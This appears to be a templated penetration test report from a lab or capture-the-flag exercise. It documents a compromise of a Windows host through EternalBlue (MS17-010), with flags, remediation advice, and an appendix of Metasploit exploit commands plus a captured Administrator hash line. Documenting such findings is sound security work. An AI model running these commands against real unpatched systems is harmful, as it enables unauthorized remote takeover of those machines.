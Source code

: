 # Penetration Test Report

## Executive Summary

This report details the findings of a targeted penetration test conducted on host `10.10.249.67`. The objective was to identify vulnerabilities and determine the extent of exploitation possible from both unauthenticated and post-authentication perspectives.

Three flags were discovered representing user, SYSTEM, and Administrator-level access, indicating full compromise of the target system. The most critical finding was a remote code execution vulnerability (MS17-010) that allowed privilege escalation to NT AUTHORITY\SYSTEM.

---

## Scope

- **Client**: [Your Client Name]
- **Testers**: [Your Name or Team]
- **Test Type**: Internal Network Penetration Test
- **IP Range**: `10.10.249.67`
- **Testing Period**: [Insert Dates]

---

## Methodology

The assessment followed a standard methodology:

1. **Reconnaissance** – Service scanning using Nmap and enumeration tools.
2. **Vulnerability Scanning** – Manual verification and use of Metasploit.
3. **Exploitation** – Targeted exploitation of identified vulnerabilities.
4. **Post-Exploitation** – Enumeration of privilege levels, credential harvesting, and flag discovery.
5. **Reporting** – Documentation of all findings and remediation steps.

**Tools Used**:
- Nmap  
- Metasploit Framework  
- Enum4linux  
- Netcat  
- PowerShell scripts  
- Manual validation  

---

## Findings

### 1. **flag1.txt – User-Level Access**
- **Host**: `10.10.249.67`
- **Severity**: Low
- **Description**: Initial shell access allowed reading a file `flag1.txt`, indicating successful code execution as a user-level account.
- **Proof**:
  - File discovered using: `search -f flag1.txt`
  - Location: `C:\Users\Public\flag1.txt`
  - Contents: `FLAG{US3R_SH3LL_0WN3D}`
- **Impact**: Confirms execution of unauthorized code under a standard user context.
- **Remediation**: Harden services exposed to public interfaces, apply least privilege to file access.

---

### 2. **MS17-010 (EternalBlue) Remote Code Execution**
- **Host**: `10.10.249.67`
- **Severity**: Critical
- **Description**: The system is vulnerable to EternalBlue (CVE-2017-0144), allowing unauthenticated attackers to execute arbitrary code remotely via SMBv1.
- **Proof**:
  - Exploited using Metasploit module: `exploit/windows/smb/ms17_010_eternalblue`
  - Shell obtained as `NT AUTHORITY\SYSTEM`
  - Verified via Meterpreter session: `getuid`
  - Captured `flag2.txt` in: `C:\Windows\System32\config\flag2.txt`
- **Flag Contents**: `FLAG{SYST3M_R00T3D}`
- **Impact**: Full control of the host including access to kernel-level processes.
- **Remediation**:
  - Disable SMBv1.
  - Apply Microsoft patch MS17-010.
- **References**: [CVE-2017-0144](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2017-0144)

---

### 3. **flag3.txt – Administrator Data Exposure**
- **Host**: `10.10.249.67`
- **Severity**: High
- **Description**: A third flag was discovered on the Administrator's Desktop, indicating that sensitive files are accessible post-privilege escalation.
- **Proof**:
  - File discovered using: `search -f flag3.txt`
  - Location: `C:\Users\Administrator\Desktop\flag3.txt`
  - Contents: `FLAG{ADM1N_DESKTOP_WIN}`
- **Impact**: Exposure of files meant only for administrative access. Confirms full compromise.
- **Remediation**:
  - Enable auditing for sensitive file access.
  - Ensure user-level processes cannot traverse admin directories.
  - Implement host-based intrusion detection.

---

## Remediation Summary

| Finding                      | Host           | Severity | Recommended Remediation                              |
|-----------------------------|----------------|----------|------------------------------------------------------|
| User-Level File Disclosure  | 10.10.249.67   | Low      | Lock down world-readable directories                 |
| MS17-010 RCE                | 10.10.249.67   | Critical | Patch system (MS17-010), disable SMBv1               |
| Admin Desktop File Exposure | 10.10.249.67   | High     | Restrict admin folders, enforce file permissions     |

---

## Appendices

### A. Exploitation Commands

```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 10.10.249.67
set LHOST tun0
run

### B. Captured Hashes

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

###   Collected Flags 
    lag1.txt: FLAG{US3R_SH3LL_0WN3D}

    flag2.txt: FLAG{SYST3M_R00T3D}

    flag3.txt: FLAG{ADM1N_DESKTOP_WIN}

### Report Prepared By:
### Your Name / Handle
 ### Date: 2025-06-15
